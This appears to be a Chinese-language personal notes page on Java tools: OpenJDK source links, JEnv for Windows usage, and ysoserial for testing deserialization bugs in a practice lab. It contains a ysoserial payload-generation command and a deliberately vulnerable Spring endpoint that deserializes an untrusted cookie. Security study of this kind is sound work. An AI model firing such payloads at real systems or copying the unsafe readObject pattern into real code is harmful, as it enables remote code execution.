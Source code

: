 ```yaml
---
tags:
    - Java
    - Tool
comments: true
---
```


# Java Tools

## JDK 各版本源码

[openjdk-sources](https://openjdk-sources.osci.io/){target="_blank"}
[openjdk Mercurial repository](https://hg.openjdk.org/){target="_blank"}

## JEnv for windows
[JEnv](https://github.com/FelixSelter/JEnv-for-Windows){target=_blank}是一个命令行工具，用于在不同的Java版本之间切换。它可以设置全局Java版本或者项目级别的Java版本。

**安装:**
git clone到本地，以管理员身份运行`jenv.bat`即可。
```bash
jenv -h
"jenv list"                            List all registered Java-Envs.
"jenv add <name> <path>"               Adds a new Java-Version to JEnv which can be refferenced by the given name
"jenv remove <name>"                   Removes the specified Java-Version from JEnv
"jenv change <name>"                   Applys the given Java-Version globaly for all restarted shells and this one
"jenv use <name>"                      Applys the given Java-Version locally for the current shell
"jenv local <name>"                    Will use the given Java-Version whenever in this folder. Will set the Java-version for all subfolders as well
"jenv link <executable>"               Creates shortcuts for executables inside JAVA_HOME. For example "javac"
"jenv uninstall <name>"                Deletes JEnv and restores the specified java version to the system. You may keep your config file
"jenv autoscan [--yes|-y] ?<path>?"    Will scan the given path for java installations and ask to add them to JEnv. Path is optional and "--yes|-y" accepts defaults.
Get help for individual commands using "jenv <list/add/remove/change/use/local> --help"
```

## ysoserial

[ysoserial](https://github.com/frohoff/ysoserial){target="_blank"}是一个用于生成各种序列化payload的工具，可以用于测试Java反序列化漏洞。

- 需求：JDK 1.7+
- 用法：`java -jar ysoserial.jar [payload] '[command]'`

使用 javasec 靶场deserial漏洞测试：

```bash
# certutil 为windows自带工具，用于base64编码，格式为：certutil -f -encode inputfile outputfile
java -jar ysoserial.jar CommonsCollections5 "touch 1" > 1.txt & certutil -f -encode 1.txt 1
```

```java title="反序列化漏洞代码"
public class Deserialize {

    protected final Logger logger = LoggerFactory.getLogger(this.getClass());

    /**
     * java -jar ysoserial.jar CommonsCollections5 "open -a Calculator" | base64 <br>
     * <a href="http://localhost:8080/deserialize/rememberMe/vuln">http://localhost:8080/deserialize/rememberMe/vuln</a>
     */
    @RequestMapping("/rememberMe/vuln")
    public String rememberMeVul(HttpServletRequest request)
            throws IOException, ClassNotFoundException {

        Cookie cookie = getCookie(request, Constants.REMEMBER_ME_COOKIE);
        if (null == cookie) {
            return "No rememberMe cookie. Right?";
        }

        String rememberMe = cookie.getValue();
        byte[] decoded = Base64.getDecoder().decode(rememberMe);

        ByteArrayInputStream bytes = new ByteArrayInputStream(decoded);
        ObjectInputStream in = new ObjectInputStream(bytes);
        in.readObject();
        in.close();

        return "Are u ok?";
    }
}
```

测试结果如下:

![alt text](img/ysoserial.png){loading="lazy"}
